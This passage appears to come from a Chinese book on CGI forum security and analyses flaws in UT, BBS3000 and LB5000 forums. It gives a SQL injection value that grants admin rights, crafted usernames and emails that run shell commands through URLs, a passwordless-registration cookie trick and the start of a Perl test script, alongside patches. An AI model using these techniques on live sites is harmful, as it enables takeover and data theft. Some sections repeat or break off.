首先，看看注册页面，是这个文件user_register.cgi，然后再调用user_register_x.cgi执行用户提交的信息。我们来看一下user_register_x.cgi文件是怎么写的：

```
..........
（省略些没用的代码）
# Check if it is the first user (= admin)
$query = "SELECT COUNT(*) FROM ut_users";
$sth = query($query);
my ($userNum) = $sth->fetchrow_array();
$sth->finish;
my $admin = $userNum ? 0 : 1;
..........
```

在用户注册的时候，它统计用户数，如果不是0的话，就令$admin这个变量等于0，也就是说不是管理员，但是我们也因此知道了，判断是否管理员是由0和1区分的。为保险起见，我又看了一下它的用户表结构，果然有一个字段是admin，而且默认值是0。也就是说，普通用户的admin字段的值都是0。看来要从此处下手。

继续找……我又到用户属性修改页面user_options.cgi，看到有不少设置，查看了一下源代码，用文本编辑器搜索了一下“post”，发现用户属性修改表单提交给user_options_x.cgi执行。那就让我来分析一下user_options_x.cgi这个文件吧。经过分析发现，有一个重大漏洞可以使用户提交非法信息提升自己为管理员。

首先，我们来看看这个文件是怎么写的：

```
................
# Get CGI parameters （得到用户提交的属性修改信息）
my $cgi = new UTCGI;
$cgi->truncated and userError($lng{'errAttSize'});
my $userId = int($cgi->param('id'));
my $password = $cgi->param('password') || "";
my $passwordV = $cgi->param('passwordV') || "";
my $email = $cgi->param('email') || "";
my $emailV = $cgi->param('emailV') || "";
my $realName = $cgi->param('realName') || "";
my $homepage = $cgi->param('homepage') || "";
my $occupation = $cgi->param('occupation') || "";
my $hobbies = $cgi->param('hobbies') || "";
my $location = $cgi->param('location') || "";
my $icq = int($cgi->param('icq')) || 0;
my $oicq = int($cgi->param('oicq')) || 0;
my $userFace = $cgi->param('userface') || "none.gif";
```

## 代码攻击精粹

```
my $userDesc = $cgi->param('userdesc') || "";
my $fontFace = $cgi->param('fontFace') || $cfg{'fontFace'};
my $fontSize = int($cgi->param('fontSize')) || $cfg{'fontSize'};
my $fontSizeUnit = $cgi->param('fontSizeUnit') || $cfg{'fontSizeUnit'};
my $hideEmail = $cgi->param('hideEmail') ? 1 : 0;
my $notify = $cgi->param('notify') ? 1 : 0;
my $tempLogin = $cgi->param('tempLogin') ? 1 : 0;
my $dispSign = $cgi->param('dispSign') ? 1 : 0;
my $advEditor = $cgi->param('advEditor') ? 1 : 0;
my $pmPopup = $cgi->param('pmPopup') ? 1 : 0;
my $hidden = $cgi->param('hidden') ? 1 : 0;
my $dispMode = $cgi->param('dispMode');
my $signature = $cgi->param('signature');
my $postsAge = $cgi->param('postsAge');    (注意此处！！！)
my $editWidth = int($cgi->param('editWidth'));
my $editHeight = int($cgi->param('editHeight'));

.................
# Quote strings （这里把一些变量加上了引号，看来这些变量是利用不了了）
my $passwordQ = quote($password);
my $emailQ = quote($email);
my $realNameQ = quote($realName);
my $homepageQ = quote($homepage);
my $occupationQ = quote($occupation);
my $hobbiesQ = quote($hobbies);
my $locationQ = quote($location);
my $fontFaceQ = quote($fontFace);
my $userFaceQ = quote($myFace);
my $userDescQ = quote($userDesc);
my $signatureQ = quote($signature);
```

```
.................
# Update user （向数据库中插入修改数据）
$query = "
    UPDATE ut_users SET
        password   = $passwordQ,
        email      = $emailQ,
        realName   = $realNameQ,
        hideEmail  = $hideEmail,
        notify     = $notify,
        tempLogin  = $tempLogin,
        dispSign   = $dispSign,
        advEditor  = $advEditor,
        pmPopup    = $pmPopup,
        hidden     = $hidden,
        dispMode   = $dispMode,
        signature  = $signatureQ,
        homepage   = $homepageQ,
        occupation = $occupationQ,
        hobbies    = $hobbiesQ,
        location   = $locationQ,
        icq        = $icq,";
$query .= "
    oicq = $oicq, " if ($cfg{'oicq'});

$query .= "
    fontFace    = $fontFaceQ,
    userFace    = $userFaceQ,
    userDesc    = $userDescQ,
    fontSize    = $fontSize,
    fontSizeUnit = '$fontSizeUnit',
    editWidth   = $editWidth,
    editHeight  = $editHeight,
    topicsPP    = $topicsPP,
    postsPP     = $postsPP,
    postsAge    = $postsAge,
    lastIp      = '$ip',
    lastRealIp  = '$realIp'
WHERE id = $optUserId";

$dbh->do($query) or dbError();
................
```

看来过滤得不是很完全，大概可以用SQL Injection，那就去找找没有过滤的变量吧。再到论坛的用户属性修改界面，发现设置显示多少天的帖子那里是下拉式菜单。我以前在《PHP中常见的引起安全问题的错误例子分析》这篇文章里提到过，下拉式菜单提交的变量很容易被程序编写者忽略，得不到很好的过滤。在UT的脚本中这一点再次得到证实。查看源代码，发现这个设置显示多少天的帖子的下拉式菜单的源代码是这样的：

```
<select name=postsAge class=selStyle>
<option value='1,admin=1'>显示昨天以来的帖子</option>
<option value='2'>显示二天以来的帖子</option>
<option value='5'>显示五天以来的帖子</option>
<option value='10'>显示十天以来的帖子</option>
<option value='20'>显示二十天以来的帖子</option>
<option value='30' selected>显示三十天以来的帖子</option>
<option value='60'>显示六十天以来的帖子</option>
<option value='100'>显示一百天以来的帖子</option>
<option value='0'>显示所有的帖子</option>
</select>
```

VALUE是整形的数，而且过头来再看user_options_x.cgi中得到名为$postsAge的变量是这样写的：my $postsAge = $cgi->param('postsAge'); 并没有用int函数。然后在后来的查询语句中直接就这么写：postsAge = $postsAge。想一下，如果我要是把$postsAge的值提交成这样呢：“1,admin=1”，发到查询语句中就变成postsAge=1, admin=1，这样，在修改用户表中其他字段的同时修改了admin字段的值为1，这样我就成管理员了。方法有了，随便你是用什么办法，把提交的$postsAge变量的值修改为1,admin=1就可以了，提交后你就会发现自己变成管理员了。

PS: 本来无意发布，后发现UT新版已经解决了该问题，所以还是说明一下。

声明：由于UT是商业脚本，我只是说了一下造成漏洞的原因，并没有写任何攻击程序，所以，利用本文造成的后果自负。如果你想了解更多的CGI安全方面的问题，请访问我们C4小组主页http://www.China4alert.ORG。

## 4.8 筑探YUZI的BBS3000社区安全性

#### 基本漏洞测试

YUZI的BBS3000被不少国内个人站点和企业站点用来作为网友交流的论坛，但用户很少去探测这论坛的安全性，使用者很大程度上信任作者，而实际上，这些免费的版本和汉化修改论坛，往往存在一些致命的漏洞。本文的目的在于揭示这hxf论坛不为人知的漏洞，让大家更好地使用这类论坛，并且保证自身资料的隐藏和服务器的安全。



测试版本：bbs3000 v4.11，可以去http://www.yuzi.net/下载。  
系统平台：Win2000 ADV Server SP3 + iis 5.0 + ActivePerl 5.6.1.626  
应用程序映射：perl.exe %s %s 动作：GET，HEAD，POST  
或者：perlIS.dll 动作：GET，HEAD，POST  

下面便开始测试。

### 一、用户名为dir的漏洞

1、采用应用程序映射：perl.exe %s %s。在站点建立一目录（或者虚拟目录）bbs3000，按论坛作者提供的说明书，默认安装BBS3000 v4.11版本。我们注册一用户名为dir，密码为system，信箱为#badboy@badclub.org（#任意信箱都可以），然后我们在IE地址栏处输入：

```
http://192.168.0.1/bbs3000/yhzl/dir.cgi

F:\new\bbs3000\bbs3000 的目录
2002-01-16 19:26    <DIR>
2002-01-16 19:26    <DIR>
2002-01-16 22:42    43,247  bbs.cgi
2002-01-16 22:47    50,934  cjyh.cgi
2002-01-16 22:43    38,551  bbs1.cgi
2002-01-16 22:48     6,401  cookie.cgi
2002-01-16 22:42     2,138  affiche.cgi
2002-01-16 22:43    22,434  bbs2.cgi
（以下略）
34 个文件        417,611 字节
15 个目录   1,830,944,768 可用字节
```

2、采用应用程序映射：perlIS.dll。应用程序映射得到的显示页面为：

`'F:\new\bbs3000\bbs3000\yhzl\dir.cgi' script produced no output`

测试解释：在应用程序映射中，一个扩展名只能由一个程序去映射，在采用 perl.exe 时，BBS3000 存在查看网站目录和文件的漏洞；在采用 perlIS.dll 时，则有暴露网站在服务器上的绝对地址的漏洞。

### 二、用户名为system的漏洞

1、采用应用程序映射：perl.exe %s %s。注册一用户名为 system，密码为空格键（或者密码为 system），信箱为 `'dir c:' #@badclub.org`，然后我们在 IE 地址栏内输入：

```
http://192.168.0.1/bbs3000/yhzl/system.cgi

返回的页面显示为：

C:\ 的目录
2001-11-27  20:56            1,002  FRUNLOG.TXT
2001-11-27  20:49            <DIR>  WINNT
（以下略）
10 个文件          29,583 字节
9 个目录     946,327,552 可用字节
```

当密码为其他时，则显示：

```
CGI Error
The specified CGI application misbehaved by not returning a complete
set of HTTP headers. The headers it did return are:
syntax error at F:\new\bbs3000\bbs3000\yhzl\system.cgi line 1, near
"1        system" Execution of F:\new\bbs3000\bbs3000\yhzl\system.cgi
aborted due to compilation errors.
```

我们还可以这样测试用户名为 system 的情况，密码仍然为空格键（或者密码为 system），但把信箱修改为 `@ARGV# #badboy@badclub.org`，然后我们在 IE 地址栏内输入：

```
http://192.168.0.1/bbs3000/yhzl/system.cgi?dir%20d:
返回的页面显示：

D:\ 的目录
2001-01-18  23:23   <DIR>   tools
2001-11-27  21:18   <DIR>   98tools
2001-04-08  13:08   <DIR>   W2Kreskit
2001-11-06  19:52   <DIR>   NOCDKEY-PROT
2001-12-01  21:32   <DIR>   WINNT
2001-12-01  21:39   <DIR>   Documents and Settings
2001-12-01  21:41   <DIR>   Program Files
2001-12-01  21:53   <DIR>   Inetpub
2002-01-16  19:17   <DIR>   pl
（以下省略部分内容）
12 个文件      15,068,818 字节
15 个目录   2,371,317,760 可用字节
```## 论坛源码分析和安全设置

##### 一、论坛源码分析

我们先打开yhreg.cgi这个文件来看看，找到控制注册部分的代码：

```
sub reguser{
&origin;
```

从它的程序中，我们可以看到用户名和密码所过滤的字符明显不足，信箱的过滤也存在比较大的安全隐患，在用户修改yhxiu.cgi文件中也存在同样的问题：

```
perl
$username=~s/\ //g;
if($passwordok ne "0"){ $userpsd=$ftime; }
if($username=~m/[\#\&\*=\+\\\.:"\'\/\<\>\?\'\"\?\/] )
{&errorview(" 名字中不能含有特殊字符！");}
if($userpsd=~m/[\#\&\*=\+\\\.:"\'\/\<\>\?\'\"\?\/] )
{&errorview(" 密码中不能含有特殊字符！");}
if(($userpsd eq "")||($username eq "")){&errorview(" 请填写您的名字和密码！ ");}
if(!($mail=~/.*\@.*\..*/)){&errorview(" 您的Email 输入错误！ ");exit;}
foreach (@badmail){$mail =~s/$//gi;}
if($mail eq "" || $Cookies{badren} eq "1"){&errorview(" 您的Email 被禁止注册！ <SCRIPT>document.cookie=\"badren=\"+\"1\";</SCRIPT>");
}
($ip1,$ip2,$ip3,$ip4)=split(/\./,$from); $badi="$ip1.$ip2.$ip3";
foreach $badip (@badip){ &errorview(" 对不起！ 此段 IP 被禁止注册资料！ "); if($badip eq $badi); exit; if($badip eq $badi); }
if(length($username) > 12){&errorview(" 您的名字不能大于12个字符！ ");}
if(length($comment) > 400 ){&errorview(" 您的签名不能大于200个汉字！ ");}
if(length($jiao) > 400 ){&errorview(" 您的简介不能大于200个汉字！ ");}
$comment=~s/\[sound\]\//isg;$comment=~s/\[\/sound\]\//isg;
$comment = &ybbcode("$comment");

```

##### 二、过滤的重要性

由于过滤的不足和保存用户资料的方式不对，从而使得入侵者可以利用各种函数调用命令。对一种编程语言而言，在设计这种语言的时候，一般情况下是不会产生安全隐患的，在很多情况下，这种安全隐患是由程序员不小心或者对安全方面的疏忽造成的。一个软件整体的安全性仍然大部分依赖于这个软件制造者的知识面、理解能力和他的安全意识。

程序的编写者不能过多地要求用户的安全配置能力，应该把安全的重点放在自己所编写的程序代码中，能够做到最大的傻瓜化，即用户不需要做太多的事就能安全地使用自己的作品，这是每个编程人员必须注意的。

Perl脚本产生安全问题的一个很大的来源是没有经过正确确认（或根本就没有确认）的用户的输入。我们不要指望每个注册用户都会认真填写注册信息，要提防某些入侵者发送给你假的输入。不正确的用户输入，如果没有经过确认就被认可并使用，将会导致许多方面出错。最常见和明显的错误是，没有经过确认就去执行有用户自定义参数的其他程序。

perl cgi执行一个外部程序和一个系统命令的方法是通过调用exec()函数。当Perl遇到一个exec()语句的时候，它会审视exec()被调用处的参数，然后启动一个新的进程来执行这条指定的命令语句。Perl从不会返回调用exec()原来的那个进程。

和EXEC()相似的函数是system()。system()的运行方式非常像exec()。两者最大的区别是：Perl会首先从父进程中分叉出一个子进程，子进程作为提供给system()的一个参数。父进程等到子进程运行结束后，再接着运行程序的其余部分。

传递给system()的参数是一个列表——列表里的第一个元素是要被执行的这个程序的程序名，其他元素是传给这个程序的参数。然而，如果只有一个参数的话，system()的执行方式会发生差异。在那种情形下，Perl将会扫描这个参数，看它是不是包含任何shell转换字符。如果有的话，它就要把这些字符通过shell来解释，因此产生一个shell命令行来工作。不然，Perl会降字符串拆成单词然后调用效率更高的C库函数execvp()，这个函数不能理解特殊的shell字符。

因此，BBS3000在Windows2000下，在system用户资料的文件system.cgi中，我们可以构造成`system system@ARGV++#badboy@badclub.org`（后面略）。

在这个目录能够执行CGI程序的情况下，我们就可以通过RUL赋予它执行的命令，`http://192.168.0.1/bbs3000/yhz/system.cgi?dir`或者像DIR用户的用户资料构造成`system dir #badboy@badclub.org`（后面略），实际上也是一条简单的函数`system()`。

过滤用户输入的一个通常方法就是过滤任何不需要的转换字符和有可能函数命令问题的数据。例如，我们可以在BBS3K的用户注册和用户资料修改中过滤用户名、密码、信箱中的非法字符。一旦看见非法的字符，就让程序运行失败，这种策略被称为“黑名单”。这种策略就是如果某东西没有明确禁止，那它肯定是好的。黑名单的过滤策略最重要的一点是它非常难保持过滤的完整性。你也许会忘掉过滤某一特定字符。

[PAGE 113]

符，或者你的程序随不同的转换字符集合转到一个不同的shell中。一个更好的策略是“白名单”，只过滤合法的输入。我们在无法完全知道该过滤哪些非法字符时，可以通过验证所输入的字符必须满足我们同意输入的字符，比如用户名和密码只能是数字和英文字母的组合，如果不是，则过滤掉。

在《Perl CGI编程安全点滴》（作者：backend）一文中，backend谈到了几个很重要并且是很容易忽略的过滤问题，很值得CGI程序编程人员学习。

本文只测试在Win2K情况下由于BBS3K过滤的不足引起的安全隐患。同样，在UNIX中，或者其他的平台下，由于过滤的不足，也会引起类似的安全问题，只是入侵的方式有些不同，有兴趣者可以测试。

## BBS3K在WIN2K下使用的安全建议

### 1. 修改用户资料存放地址和文件格式，使别人不容易猜到你的存放目录的目录名。
2. 限制访问用户资料目录，把YHZL目录执行许可设置为无（一般空间租用者只能求助于服务器管理人员）。
3. 加强字符过滤，包括用户名和信箱特殊符号的过滤，信箱字节长度的限制，特殊用户名的注册。
4. 重新调整用户资料的排列，把用户输入的数据和系统产生的分别隔开，使之很难构造一条能够执行的命令语句。
5. 限制everyone使用cmd.exe（这条比较难做到，尤其是提供免费使用空间的站点，空间租用者在安装BBS3K时本身就必须调用cmd.exe，在管理论坛时也许用到）。

### 4.9 BBS3000论坛用户注册新漏洞的分析

由于BBS3000论坛程式对用户Cookie验证方面设计的不完整性，导致非法人员可以通过构造一个特殊的请求，从而非法注册任意一个用户名称（当然，已经有人注册过的，是无法再次注册的）。不管论坛是否禁止新用户注册，或者禁止注册某个用户名，该漏洞依然适用。最大的问题在于论坛管理员无法察觉注册人员数据，直到有新的用户加入论坛。

再者，该漏洞导致论坛有可能被远程攻击者利用，进行多次用户注册，从而影响论坛空间大小，最后可以导致空间数据饱和而不能正常使用。

有安全问题的程序文件是PHOTO2.CGI，以下为其中那段有问题的代码：

```
perl
-------------代码开始-------------
$username=$Cookies{'username'};
open(PSD, "$filepath/yhzl/$username.cgi");
$line=<PSD>;
chomp($line);
close(PSD);
($rdpassword, $rdname, $rdmail, $rdhome, $rlast, $rdqm, $rdsex, $rdwork, $rdcity, $rdlove, $rfy, $rhf, $tu, $jiao, $iewin, $QQ, $photo, $savecookie, $level, $levelstar, $lastlytime, $lastlytopic, $realname, $birthday, $shengxiao, $blood, $constellation, $character, $belief, $marital, $education, $college)=split(/\t/, $line);
open(PSD, ">$filepath/yhzl/$username.cgi");
print PSD $rdpassword . "\t" . $rdname . "\t" . $rdmail . "\t" . $rdhome . "\t" . $rlast . "\t" . $rdqm . "\t" . $rdsex . "\t" .
$rdwork . "\t" . $rdcity . "\t" . $rdlove . "\t" . $rfy . "\t" . $rhf . "\t" . $tu . "\t" . $jiao . "\t" . $ENV{'HTTP_User_AGENT'} .
"\t" . $QQ . "\t" . $ttname . "\t" . $savecookie . "\t" . $level . "\t" . $levelstar . "\t" . $lastlytime . "\t" . $lastlytopic .
$realname . "\t" . $birthday . "\t" . $shengxiao . "\t" . $blood . "\t" . $constellation . "\t" . $character . "\t" . $belief . "\t" .
$marital . "\t" . $education . "\t" . $college;
close(PSD);

```

### 代码结束

首先，我们提交Cookie，其内容为username=Torune：

```
open(PSD, "$filepath/yhzl/$username.cgi");
```

代码转化为open(PSD, "$filepath/yhzl/Torune.cgi"); 打开一个名称为Torune.cgi的文件。
如果文件打开成功，则返回非0值，否则返回零。缺省状态下，则意味着打开这个文件并读取其内容。

```
$line=<PSD>;
chomp($line);
close(PSD);
($rdpassword,$rdname,$rdmail,$rdhome,$rlast,$rdqm,$rdsex,$rdwork,$rdcity,$rdlove,$rfy,$rhf,$tu,$jiao,$iewin,$QQ,$photo,$savecookie,$level,$levelstar,$lastlytime,$lastlytopic,$realname,$birthday,$shengxiao,$blood,$constellation,$character,$belief,$marital,$education,$college)=split(/\t/,$line);
```

正常情况下，用户登陆论坛后，他的Cookie中的username值已经被设置好了。
然而，Torune用户并没有注册过，相对的yhzl目录下的Torune.cgi也不存在。
由于文件打开失败，返回值为0，则该段程序已经算是被略过了。
接下来的这一段代码，正是此漏洞的核心所在

```
open(PSD, ">$filepath/yhzl/$username.cgi");
```

代码转化为open(PSD, ">$filepath/yhzl/Torune.cgi");
在Perl中想打开文件以便写入内容，则要在文件名前加个>`号。
例如，open(FILE, ">file.txt");
向已有的文件末尾添加内容则使用两个>`号。
例如，open(FILE, ">>file.txt");
在这里，也许yuzi的目的只是想覆盖文件，很奇怪的是这个photo2.cgi完全可以合并到photo.cgi里面去。
并且这些代码可以更加简化，但是不知道作者对这些代码的原意是什么。

```
print PSD
```

文件写入字符串，PSD为文件变量。
往Torune.cgi中写入以下内容：

```
$rdpassword."\t".$rdname."\t".$rdmail."\t".$rdhome."\t".$rlast."\t".$rdqm."\t".$rdsex."\t".$rdwork."\t".$rdcity."\t".$rdlove."\t".$rfy."\t".$rhf."\t".$tu."\t".$jiao."\t".$enV{'HTTP_USER_AGENT'}."\t".$QQ."\t".$ttname."\t".$savecookie."\t".$level."\t".$levelstar."\t"

# 如果可以定义，远程攻击者完全可以写入一个WEBSHELL，来控制远端主机。
# 再者，我们来看看yhzl的权限设置。
# 在安装过程中，install.cgi文件已经把该目录设置为777，也就意味着该目录可读，可写，可执行：
# [ mkdir("$filepath/yhzl",0777); ]
# 到这里，我们已经成功地创建了一个叫Torune.cgi的文件。
# 由于没有定义那些函数，但是依然会写入\t，也就是tab。
# 光是这种符号组成的文件也是会占用一定的空间的。

既然已经成功建立了一个文件，接下来分析分析看看，我们新建立的用户是如何登陆论坛的？
登陆文件LOGIN.CGI;

```
-------------代码开始-------------
sub login{
if($username eq "") {&errorview(" 请输入入您的用户名 ");}

# 如果输入的用户名为空，则提示请输入您的用户名

if ( -e "$filepath/yhzl/$username.cgi"){

# 检查 输入的用户名.cgi 是否存在

open(PSD,"$filepath/yhzl/$username.cgi");

# 打开 输入的用户名.cgi 文件

$line=<PSD>;
close(PSD);
($rdpassword)=split(/\t/,$line);
if($userPSD ne "$rdpassword") {&errorview(" 您的密码错误！ ");}}else{

# 如果输入的密码与该用户的密码不一致，则提示您的密码错误！

&errorview(" 此用户名还没有在本社区注册过！ ");exit;
}
-------------代码结束-------------
```

首先先看看那个if（ -e "$filepath/yhzl/$username.cgi"），在登陆页面提交username= Torune。
由于利用上面的漏洞，我们成功地建立了Torune.cgi文件，则 -e "$filepath/yhzl/$username.cgi" 为true；

```
if($userPSD ne "$rdpassword") {&errorview(" 您的密码错误！ ");}}else{
# 由于我们无法定义函数 $rdpassword 的值，也就意味着 $rdpassword 为NULL（空）
# 而该程序（LOGIN.CGI）没有 if($password eq "") {&errorview(" 请输入入您的密码 ");}
# 因此，该用户 Torune 成功的登陆了论坛
```

由于远程攻击者不是通过yhhreg.cgi注册的，则该用户不会显示在新注册用户上，data/newmember里面也不会有新增加一名用户的记录。

# 漏洞修补方法：

##### PHOTO2.CGI

在此程序中找到$tttname=$FORM{'tttname'};替换为：

```
perl
——————代码开始——————————
$username=~s/\||\.|\.%//g; # 这个可加可不加
$yhzlurl = "$filepath/yhzl/$username.cgi";
if ( -e "$yhzlurl" ) {
open(PSD, "$yhzlurl");
$lines=<PSD>;
close(PSD);
($password)=split(/\t/, $lines);
if ($password ne $Cookies{password}){&errorview(" 对不起，您的密码错误！");}
}

else {&errorview(" 对不起，此用户名还没有注册！");}
$tttname=$FORM{'tttname'};
——————代码结束——————————

```

##### LOGIN.CGI

在此程序中找到if($username eq ""){&errorview("请输入您的用户名")};替换为：

```
perl
——————代码开始——————————
if($username eq ""){&errorview(" 请输入您的用户名 ");}
if($userpsd eq ""){&errorview(" 请输入您的密码 ");}
——————代码结束——————————

```

此漏洞的测试代码如下：

```
perl
——————代码开始——————————
#!/usr/bin/perl
use Socket;
print "
+——————————————————————————————+
|BBS3000 用户注册漏洞 测试代码
|
|By Torune
|Email: torune_@hotmail.com
|http://torune.126.com
+——————————————————————————————+\n
请输入你要测试的主机：";
chomp ($host = <>);

print "请输入主机的端口：";
chomp ($port = <>);
print "请输入你要建立的用户名:";
chomp ($user = <>);

```

### 4.10 YUZI BBS3000论坛安全性分析

BBS3000论坛是国内使用比较广泛的论坛，但是安全性却非常的低。在此我就来分析一下BBS3000论坛的安全性问题。

大家都看过BADBOY的那篇分析BBS3000安全性的文章，但是那只是由于Windows下对CGI文件错误解释造成的，把所有CGI都附有了可执行权限，改用ISAPI方式就不会产生问题。当然了，虽然BBS3000修正了当时BADBOY说的问题，但是还存在着不少这种问题，即可以创建含有SYSTEM @ARGV的这种CGI文件。在此我就不一一列举了。这回我说的方法针对所有平台下安装的BBS3000最新版（WWW.YUZI.NET

##### PHOTO2.CGI

在此程序中找到$tttname=$FORM{'tttname'};替换为：

```
perl
——————代码开始——————————
$username=~s/\||\.|\.%//g; # 这个可加可不加
$yhzlurl = "$filepath/yhzl/$username.cgi";
if ( -e "$yhzlurl" ) {
open(PSD, "$yhzlurl");
$lines=<PSD>;
close(PSD);
($password)=split(/\t/, $lines);
if ($password ne $Cookies{password}){&errorview(" 对不起，您的密码错误！");}
}

else {&errorview(" 对不起，此用户名还没有注册！");}
$tttname=$FORM{'tttname'};
——————代码结束——————————

```

##### LOGIN.CGI

在此程序中找到if($username eq ""){&errorview("请输入您的用户名")};替换为：

```
perl
——————代码开始——————————
if($username eq ""){&errorview(" 请输入您的用户名 ");}
if($userpsd eq ""){&errorview(" 请输入您的密码 ");}
——————代码结束——————————

```

此漏洞的测试代码如下：

```
perl
——————代码开始——————————
#!/usr/bin/perl
use Socket;
print "
+——————————————————————————————+
|BBS3000 用户注册漏洞 测试代码
|
|By Torune
|Email: torune_@hotmail.com
|http://torune.126.com
+——————————————————————————————+\n
请输入你要测试的主机：";
chomp ($host = <>);

print "请输入主机的端口：";
chomp ($port = <>);
print "请输入你要建立的用户名:";
chomp ($user = <>);

```

### 4.11 对雷傲LB5000论坛最新漏洞的利用

作为一个网络爱好者，经常喜欢去冰河的“安全焦点”，因为那里的安全漏洞公布比较快。今年1月8日发现雷傲LB5000论坛XP版出现了一个漏洞，具体如下：

+   - LB5000 XP 普遍存在的漏洞
- 原创：kxxz（cool）
- 版本：雷傲LB5000 xp所有版本（包括部分特殊操作的其它版本）
- 本地漏洞：非
- 远程漏洞：是
- 漏洞原因：坛主级别管理员操作备份文件不当
- 漏洞后果：数据库包括帖子、注册用户资料、论坛全部设置等备份文件被远程下载资料泄露。

详细描述：坛主利用adbackup.cgi文件备份（LB5000MX版本地也可以这样备份）将备份文件留在non-cgi目录下面没有被删除并留下tarfilelist.txt文件。这样，任何人都可以利用IE打开tarfilelist.txt文件，里面是备份信息，最主要的是包括备份文件的文件名，文件名后加s.tar就是系统设置的备份文件，如m_*.tar（*为1，2，3，4……看文件多少而定）其他的是帖子的备份、短消息等。用户库备份文件中有用户的所有资料包括密码，如果在其他地方恢复论坛备份文件就可以像坛主一样查看用户信息和“*”密码。

用Google搜索了non-cgi/tarfilelist.txt，结果一般，然后换了cgi-bin/leoboard.cgi，搜索到很多，只能测试了几个，一个是lbmx版的，有这个漏洞，找到了它的tarfilelist.txt，内容如下：

```
备份时间：2002/11/28 16:17
文件名：lbLBHDF67****（****是字母）
此次备份总文件数：53609
用户资料文件数：20627.***（用户资料哦）
用户自定义头像数：5
系统配置文件数：66
帖子文件数：27599
附件文件数：56
短消息发件箱文件数：4937
短消息收件箱文件数：319
备份的论坛如下：
forum8    安全漏洞
forum2    黑客之初
forum1    黑客进阶
forum5    漏洞公布
forum11   灌水天堂
forum13   情感交流
forum18   游戏天堂
forum19   病毒专区
请务必保持包文件完整，不要改动本文件（以上略去一些）。
```

一个黑客技术论坛后然也有这样的漏洞，相信它的管理员不经常看一些安全漏洞，当然我看是没有来得及看吧。

解决方法：最简单的方法，如果能用FTP，可以把tarfilelist.txt改名，恢复备份时再改回来。没有FTP权限的管理员备份后下载并删除所有备份文件！

写这个并不是让大家去攻击论坛，只是想说明这个事情而已，最后请各位论坛管理员尽职尽责创造安全良好的网络环境！

### 4.12 LB5K安全性分析

LB5K是国内最流行的CGI程序之一，是在Ikonboard的基础之上改进的，目前最新版本是LB5000II v1103，可以从http://www.leoboard.com/cgi-bin/lbdown.cgi?ver=LB5000II下载。

乍看起来，作者似乎已经改正了前段时间的所有BUG，这包括以前Win32平台创建后门的问题和后来跨平台的“search.cgi”问题，但是实际情况好像并不是这样。下面我将比较深入的剖析一下LB5K存在的几大功能漏洞，当然我也会提出对应的临时解决方法。

下面我只以Win32平台为例介绍一下，而且只是以Perl CGI方式介绍，至于Perl ISAPI方式请自己参考相关文档。

声明：本文只是出于教育的目的，请不要利用本文的内容进行任何破坏，否则后果自负！不用我多说了吧？
临时解决方法：
+   - 限制帐号密码只能为字母数字组合，且长度为3到8位

#### 发文章功能漏洞

好了，我们假设已经对帐号密码进行了限制，下面我们来看看发文章功能有什么问题。假设用户system已经登陆进入系统，下面他要发一篇文章：
http://www.notfound.org/cgi-bin/post.cgi?action=new&forum=1
主题标题：@ARGV#
内容：thiz is a test!
提交。

我们来看一下：
```
http://www.notfound.org/cgi-bin/forum1/1.thd.cgi?dir
C:\Inetpub\cgi-bin\forum1 的目录
2001-11-05  17:10        <DIR>
2001-11-05  17:10        <DIR>
2001-11-05  15:24        150  .htaccess
2001-11-05  17:10         72  1.pl
2001-11-05  17:10         70  1.thd.cgi
2001-11-05  15:24         85  foruminfo.cgi
2001-11-05  15:24          1  index.html
2001-11-05  17:10          1  lastnum.cgi
2001-11-05  17:10         74  list.cgi

7 个文件        453 字节
2 个目录  1,938,771,968 可用字节
```

我们看一下“post.cgi”的相关代码：
```
[post.cgi]L431~L432
elsif ($intopictitle eq "") { &error("发表新主题必须输入主题标题！"); }
elsif (length($intopictitle) > 82) { &error("发表新主题主题标题过长！"); }
```
```
[post.cgi]L436~L444
$intopictitle =~ s/(　)+/ /isg;
if ((!$inpost eq "")&&($addme eq "")) { $intopictitle.="{无内容}"; }
$tempintopictitle = $intopictitle;
$tempintopictitle =~ s/ //g;
$tempintopictitle =~ s/\&nbsp\;//g;
$tempintopictitle =~ s/　//g;
if ($tempintopictitle eq "") { print header("-charset=>gb2312"); &error("发表新主题主题标题有问题！"); }
```

显然过滤的太少了！：（

临时解决方法：
